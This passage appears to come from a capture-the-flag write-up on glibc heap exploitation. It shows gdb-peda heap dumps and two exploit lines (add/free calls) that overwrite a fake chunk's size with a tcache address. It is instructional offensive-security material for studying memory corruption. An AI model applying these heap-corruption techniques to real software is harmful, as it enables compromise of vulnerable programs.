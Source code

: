 ```sh
0x55555555a820:	0x6161616161616161	0x6161616161616161
0x55555555a830:	0x6161616161616161	0x6161616161616161
0x55555555a840:	0x6161616161616161	0x6161616161616161
0x55555555a850:	0x6161616161616161	0x6161616161616161
0x55555555a860:	0x6161616161616161	0x6161616161616161
0x55555555a870:	0x6161616161616161	0x6161616161616161
0x55555555a880:	0x6161616161616161	0x6161616161616161
0x55555555a890:	0x6161616161616161	0x6161616161616161
0x55555555a8a0:	0x6161616161616161	0x6161616161616161
0x55555555a8b0:	0x6161616161616161	0x6161616161616161
0x55555555a8c0:	0x6161616161616161	0x6161616161616161
0x55555555a8d0:	0x6161616161616161	0x6161616161616161
0x55555555a8e0:	0x6161616161616161	0x6161616161616161
0x55555555a8f0:	0x6161616161616161	0x6161616161616161
gdb-peda$ 
0x55555555a900:	0x6161616161616161	0x6161616161616161
0x55555555a910:	0x6161616161616161	0x6161616161616161
0x55555555a920:	0x6161616161616161	0x6161616161616161
0x55555555a930:	0x6161616161616161	0x6161616161616161
0x55555555a940:	0x6161616161616161	0x6161616161616161
0x55555555a950:	0x6161616161616161	0x6161616161616161
0x55555555a960:	0x6161616161616161	0x6161616161616161
0x55555555a970:	0x6161616161616161	0x0061616161616161
gdb-peda$ 
0x55555555a980:	0x0000000000000000	0x000000000001f681   -> This is the top chunk

```

It is also very interesting to see the bss table where our chunks are stored based on their indices.

Now adding another chunk of size 0x400 and free the chunk which had the fake chunk , thus corrupting the size of fake chunk we created with a large heap address.

```
add(2,cyclic(0x400)) #Also preventing top consolidation
free(1)
```
This is how the heap looks with our fake chunk's size overwritten with tcache heap address.

```
gdb-peda$ 
0x55555555a570:	0x0033333333333333	0x0000000000000411
0x55555555a580:	0x0000000000000000	0x0000555555559010 -> The size of our chunk corrupted with bk of the new freed chunk
0x55555555a590:	0x0000555555559138	0x0000555555559140
0x55555555a5a0:	0x4646464646464646	0x4646464646464646
0x55555555a5b0:	0x4646464646464646	0x4646464646464646
0x55555555a5c0:	0x4646464646464646	0x4646464646464646
0x55555555a5d0:	0x4646464646464646	0x4646464646464646
0x55555555a5e0:	0x4646464646464646	0x4646464646464646
0x55555555a5f0:	0x4646464646464646	0x4646464646464646
0x55555555a600:	0x4646464646464646	0x4646464646464646
0x55555555a610:	0x4646464646464646	0x4646464646464646
0x55555555a620:	0x4646464646464646	0x4646464646464646
0x55555555a630:	0x4646464646464646	0x4646464646464646
0x55555555a640:	0x4646464646464646	0x4646464646464646
0x55555555a650:	0x4646464646464646	0x4646464646464646
0x55555555a660:	0x4646464646464646	0x4646464646464646
0x55555555a670:	0x4646464646464646	0x4646464646464646
0x55555555a680:	0x4646464646464646	0x4646464646464646
0x55555555a690:	0x4646464646464646	0x4646464646464646
0x55555555a6a0:	0x4646464646464646	0x4646464646464646
0x55555555a6b0:	0x4646464646464646	0x4646464646464646
0x55555555a6c0:	0x4646464646464646	0x4646464646464646
```